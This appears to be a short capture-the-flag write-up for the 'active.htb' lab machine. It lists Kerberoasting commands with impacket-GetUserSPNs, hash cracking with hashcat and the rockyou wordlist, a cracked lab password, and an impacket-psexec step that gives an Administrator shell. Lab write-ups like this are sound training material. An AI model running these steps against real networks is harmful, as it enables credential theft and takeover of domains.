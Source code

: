 Attempted Kerberoasting
```bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```
This dumped krb5tgs hash for `Administrator`

```bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

Cracked the hash using hashcat
```bash
hashcat admin.krb5tgs /usr/share/wordlists/rockyou.txt
```
`Administrator:Ticketmaster1968`

```bash
impacket-psexec Administrator@10.10.10.100
```
This gives shell access as `Administrator`
